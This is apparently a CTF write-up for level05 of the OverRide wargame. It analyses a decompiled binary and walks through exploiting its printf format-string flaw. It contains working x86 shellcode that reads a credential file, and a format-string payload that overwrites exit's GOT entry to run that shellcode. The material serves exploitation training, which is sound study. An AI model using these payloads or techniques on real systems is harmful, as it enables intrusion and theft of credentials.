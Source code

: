 This time the binary ask nothing but wait for an input inside STDIN.

	level05@OverRide:~$ ./level05 
	test 
	test

Nothing happened there so lets try with another input.

	level05@OverRide:~$ ./level05 
	TEST
	test

Okay something changed my input in lowercase, let's analyse the code.

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  char s[100];
  unsigned int i;

  i = 0;
  fgets(s, 100, stdin);
  for ( i = 0; i < strlen(s); ++i )
  {
    if ( s[i] > 64 && s[i] <= 90 )	// This condition is most likely 
      s[i] ^= 0x20u; 				// the tolower() function.
  }
  printf(s);	// String attack possible here
  exit(0);		// Some function that we're gonna rewrite for sure !
}
```

To be clear, the tolower function is just a bait there and we'll do nothing with it.\
Lets check the two line that we're gonna use to clear the level.

+ printf(s);
This printf is vulnerable to format string attack (we saw it in the previous level)

+ exit(0);
With the string attack we're going to rewrite this function.

So let's start with the shell code (since there is no usable function inside the code).

	level05@OverRide:~$ export SHELLCODE=`python -c 'print "\x90" * 242 + "\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x32\x5b\xb0\x05\x31\xc9\xcd\x80\x89\xc6\xeb\x06\xb0\x01\x31\xdb\xcd\x80\x89\xf3\xb0\x03\x83\xec\x01\x8d\x0c\x24\xb2\x01\xcd\x80\x31\xdb\x39\xc3\x74\xe6\xb0\x04\xb3\x01\xb2\x01\xcd\x80\x83\xc4\x01\xeb\xdf\xe8\xc9\xff\xff\xff/home/users/level06/.pass"'`

It's the same shellcode as in level01, we're going to cat the .pass file.

Since it's the same way than in level01 I will not write how to get the shellcode address.

Shellcode: **0xffffd85a**

Now we have to find the address which exit points.\
We're going to use objdump.

	level05@OverRide:~$ objdump -R level05 | grep exit
	080497e0 R_386_JUMP_SLOT   exit

Exit: **080497e0**

Now it's time to write our payload.

	python -c 'print "\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%55378x%10$n%10149x%11$n"' | ./level05

I'll explain some more why the payload looks this unfamiliar.

	level05@OverRide:~$ ./level05 
	BBBBAAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	bbbbaaaa 64 f7fcfac0 f7ec3add ffffd58f ffffd58e 0 ffffffff ffffd614 f7fdb000 62626262 61616161 20782520 25207825 78252078 20782520 25207825

There we can see that we can rewrite in more than one address since it's kind of a big number where our shellcode is stored we're going to cut it in two part.\
**ffff** and **d85a**\
Since we rewrite two time we need two address **080497e0** and the one just after **080497e2**\
Finally after the conversion it will be **55378** and **10149** that we will rewrite at the 10 and 11 address in the stack.

And that's it, let's get to the level06 !